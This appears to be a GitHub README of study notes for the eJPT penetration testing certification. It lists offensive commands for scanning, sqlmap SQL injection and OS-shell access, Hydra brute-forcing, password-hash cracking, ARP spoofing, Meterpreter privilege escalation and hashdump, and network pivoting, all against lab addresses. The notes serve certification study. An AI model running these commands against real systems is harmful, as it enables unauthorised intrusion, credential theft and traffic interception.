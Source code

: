 # eJPT notes
Resources and methodology required to pass eJPT certification. (eLearnSecurity Junior Penetration Tester)




Routing:
- to check ip route : ip route
- To add routing, ip route add <ip>/CIDR via gatewayIP

 <hr />
  

IP and MAC Address:

- ifconfig
- ip addr show [interface]
  
 <hr />

Ping Sweep:

- fping -a -g <ip>/24 2> /dev/null
- nmap -sn -n <ip>/24
 <hr />
  
Nmap Scans needed:

- OS detection: nmap -O -Pn network/CIDR

- Quick Scanning: nmap -sC -sV -T4 network/CIDR

- Full Scanning: nmap -sC -sV -T4 -p- network/CIDR

- UDP Scanning: nmap -sU -sV -T4 network/CIDR

<hr />
Banner grabbing (HTTP):

- nc -v <machine IP> PORT
- HEAD / HTTP/1.0

<hr />
Banner grabbing (HTTPS):

- openssl s_client -connect <machine IP>:PORT
- HEAD / HTTP/1.0
- To debug the host, openssl s_client -connect hack.me:443 -debug

- To know the state of the connection, openssl s_client -connect hack.me:443 -state

- no information related to certificate, state or other information but communication with server, openssl s_client -connect hack.me:443 -quiet

<hr />
  
SQLMAP:

- To check if website is vulnerable to SQLi, sqlmap -u http://<machine IP>:PORT -p parameter

- Check if POST parameter is vulnerable to SQLi, sqlmap -u http://<machine IP>:PORT --data POSTstring -p parameter

- To check if we can get os-shell using SQLmap, sqlmap -u http://<machine IP>:PORT --os-shell

- To dump the tables, sqlmap -u http://<machine IP>:PORT --dump

- Sqlmap cheatsheet i used : https://medium.com/@NikhilPinnamaneni/sqlmap-cheat-sheet-80006296ca2a

 <hr />
  
John:

- unshadow passwd shadow > hashpass
- john --wordlist=/path/to/wordlist.txt -users=user.txt hashpass
  
<hr />

HYDRA:

- FTP: hydra -l user -P passlist.txt ftp://10.10.181.249


- SSH: hydra -l <username> -P <full path to pass> 10.10.181.249 -t 4 ssh


- Post Webforms: hydra -l <username> -P <wordlist> 10.10.181.249 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

<hr />
Subdomain Enum:

- To enumerate subdomains, sublist3r -d site.com

<hr />

Windows Shares using Null Sessions:

- -via nmblookup, nmblookup -A <machine IP>

- List shares using smbclient, smbclient -L //<machine IP> -N

- Mount Shares using smbclient, smbclient //<machine IP>/share -N

- Exploiting Null Sessions using Enum4linux: To check if the remote host is vulnerable to null session, enum4linux -n 192.168.99.162

- To gather info, enum4linux -a <machine IP>

<hr />
  
ARP Spoofing:

- To enable Port Forwarding, echo 1> /proc/sys/net/ipv4/ip_forward

- Run arpspoof, arpspoof -i [interface] -t <target machine IP> -r <host machine IP>

<hr />
  
Metasploit:

- Basic commands of metasploit-framework:

- To start metasploit-framework using CLI, msfconsole

- Without banner, msfconsole -q

after starting of MSF, these are the basic commands,
- search x
- use x
- info
- options, show advanced options
- SET X (e.g. set RHOST 10.10.10.10, set payload x)

<hr />
  
Meterpreter Commands:

- After getting meterpreter shell, we'll can issue some commands which will help us in exploiting the machine,

- background
- sessions -l
- sessions -i N (N is number)
- sysinfo, ifconfig, route, getuid
- getsystem (privesc)
- bypassuac
- download x /root/
- upload x C:\\Windows
- shell
- hashdump
For auto routing, use post/multi/manage/autoroute then set the options {SESSIONS, SUBNET} (will work if meterpreter shell shows that user is root)

Check active route table, route

port forwarding, portfwd add -L <attacker machine IP> -l listening_port -p 80 -r <host machine IP>

<hr />
  
Spawning a TTY shell:

- python -c 'import pty;pty.spawn("/bin/bash");'

<hr />
Start python based file server on our own instance:

- python3 -m http.server 80

<hr />

Gobuster:

- gobuster dir -u http://<ip>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 15

<hr />
Find:

- find / -iname * (keyword) * 2>/dev/null
<hr />

PIVOTING: (from meterpreter)


- run autoroute –h

- run autoroute -s 10.1.1.0 -n 255.255.255.0  # Add a route to 10.10.10.1/255.255.255.0

- background

- route print

- route add 10.1.1.0 255.255.255.0 1 # where 1 is the session id

- use auxiliary/scanner/portscan/tcp

- In the meterpreter session there is an utility "portfwd" which allows forwarding remote machine port to the local machine port. 

- session -i 1

- portfwd -h


- portfwd add -l 1234 -p 21 -r 192.69.228.3 #where l is local port and p is victims port and r is victim's ip

- portfwd list

- nmap -sV -A -p1234 127.0.0.1

<hr />

Windows Command Line:



To search for a file starting from current directory;

dir /b/s "*.conf*"
dir /b/s "*.txt*"
dir /b/s "*filename*"


Check routing table:
route print
netstat –r

Check Users:
net users

List drives on the machine:
wmic logicaldisk get Caption,Description,providername

<hr />
  
**All the Best for your Exam :)**


